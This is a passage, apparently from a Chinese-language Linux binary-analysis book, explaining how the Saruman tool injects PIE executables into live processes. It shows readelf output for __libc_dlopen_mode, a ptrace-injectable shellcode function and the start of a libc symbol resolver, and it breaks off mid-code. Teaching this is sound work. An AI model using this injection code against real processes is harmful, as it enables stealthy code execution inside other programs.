 让我们看一个具体的例子，看看这是如何实现的。 下面是来自 Saruman 的一些示例代码，它将 PIE 可执行文件注入到一个进程中。

### 注意事项

PIE 可执行文件与共享库具有相同的格式，因此可以使用相同的代码将两种类型的文件注入到进程中。

使用`readelf`实用程序，我们可以看到在标准 C 库(`libc.so.6`)中存在一个名为`__libc_dlopen_mode`的函数。 这个函数实际上完成了与`dlopen`函数相同的功能，它不驻留在`libc`中。 这意味着对于任何使用`libc`的进程，我们可以让动态链接器加载我们想要的`ET_DYN`对象，同时也自动处理所有的重定位补丁。

### 示例-找到 __libc_dlopen_mode 的符号

攻击者使用这个函数将`ET_DYN`对象加载到进程中是很常见的:

```sh
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep dlopen
  2128: 0000000000136160   146 FUNC    GLOBAL DEFAULT   12 __libc_dlopen_mode@@GLIBC_PRIVATE
```

### 代码示例- __libc_dlopen_mode shellcode

下面的代码在 C 语言中，但是当编译成机器码时，它可以作为 shell 代码使用`ptrace`注入到进程中:

```sh
#define __RTLD_DLOPEN 0x80000000 //glibc internal dlopen flag emulates dlopen behaviour
__PAYLOAD_KEYWORDS__ void * dlopen_load_exec(const char *path, void *dlopen_addr)
{
        void * (*libc_dlopen_mode)(const char *, int) = dlopen_addr;
        void *handle = (void *)0xfff; //initialized for debugging
        handle = libc_dlopen_mode(path, __RTLD_DLOPEN|RTLD_NOW|RTLD_GLOBAL);
        __RETURN_VALUE__(handle);
        __BREAKPOINT__;
}
```

注意，其中一个参数是`void *dlopen_addr`。 Saruman 找到了`__libc_dlopen_mode()`函数的地址，它位于`libc.so`中。 这是使用一个用于解析`libc`库中的符号的函数来完成的。

### 代码示例- libc 符号解析

下面的代码有许多的更多细节，我强烈建议您查看 Saruman。 它专门用于注入被编译为`ET_DYN`对象的可执行程序，但正如前面提到的，注入方法也适用于共享库，因为它们也被编译为`ET_DYN`对象:

```sh
Elf64_Addr get_sym_from_libc(handle_t *h, const char *name)
{
        int fd, i;
        struct stat st;
        Elf64_Addr libc_base_addr = get_libc_addr(h->tasks.pid);
        Elf64_Addr symaddr;

        if ((fd = open(globals.libc_path, O_RDONLY)) < 0) {
                perror("open libc");
                exit(-1);
        }

        if (fstat(fd, &st) < 0) {
                perror("fstat libc");
                exit(-1);
        }

        uint8_t *libcp = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
        if (libcp == MAP_FAILED) {
                perror("mmap libc");
                exit(-1);
        }

        symaddr = resolve_symbol((char *)name, libcp);
        if (symaddr == 0) {
```
